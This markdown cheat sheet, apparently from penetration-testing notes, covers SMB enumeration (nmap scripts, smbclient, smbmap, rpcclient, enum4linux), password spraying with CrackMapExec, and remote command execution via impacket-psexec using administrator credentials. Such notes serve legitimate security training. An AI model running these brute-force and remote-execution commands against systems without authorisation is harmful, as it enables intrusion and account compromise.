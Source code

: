 # SMB \[139,445]

## Nmap Scanning

### **Getting version information**

```
nmap -n -v -Pn -p139,445 -sV 192.168.0.101
```

### **Scan with NSE Scripts**

```
nmap 192.168.0.101 --script=smb-enum*
nmap 192.168.0.101 --script=smb-vuln*
nmap 192.1688.0.101 --script=smb-os*
```

## List Available Shares

### smbclient

```
smbclient -L \\\\192.168.1.101\\
# Will list all shares

smbclient -L \\$ip --option='client min protocol=NT1'
# if getting error "protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED"

smbclient //HOST/PATH -c 'recurse;ls'
# List all files recursly
```

### smbmap

```
smbmap -H $ip
# Will list all shares with available permissions

smbmap -H $ip -R $sharename
# Recursively list dirs, and files

smbmap -u '' -p '' -H $ip 
smbmap -u guest -p '' -H $ip
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
# With credentials

smbmap -H 10.129.14.128 --download "notes\note.txt"
# Download

smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
# Upload
```

### Nmap

```
nmap --script smb-enum-shares -p 139,445 $ip
```

**Windows CMD - Net Use**

```cmd-session
C:\htb> net use n: \\192.168.220.129\Finance /user:plaintext Password123
```

> to host a server use impacket with username and password flags.

**Windows CMD - DIR**

```cmd-session
C:\htb> dir n: /a-d /s /b | find /c ":\"

29302
```

<table data-header-hidden><thead><tr><th width="113"></th><th></th></tr></thead><tbody><tr><td><strong>Syntax</strong></td><td><strong>Description</strong></td></tr><tr><td><code>dir</code></td><td>Application</td></tr><tr><td><code>n:</code></td><td>Directory or drive to search</td></tr><tr><td><code>/a-d</code></td><td><code>/a</code> is the attribute and <code>-d</code> means not directories</td></tr><tr><td><code>/s</code></td><td>Displays files in a specified directory and all subdirectories</td></tr><tr><td><code>/b</code></td><td>Uses bare format (no heading information or summary)</td></tr></tbody></table>

### rpcclient

```shell-session
$ rpcclient -U'%' 10.10.110.17
```

```shell-session
rpcclient $> enumdomusers

user:[mhope] rid:[0x641]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

### Enum4linux

```shell-session
enum4linux 10.10.11.45 -A
enum4linux -u 'guest' -p '' -a <ip>
```

## Brute Force

### CrackMapExec

```shell-session
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

## **Remote Code Execution (RCE)**

### Impacket-psexec

```shell-session
impacket-psexec administrator:'Password123!'@10.10.110.17
```

### CrackMapExec

```shell-session
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```



[CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)



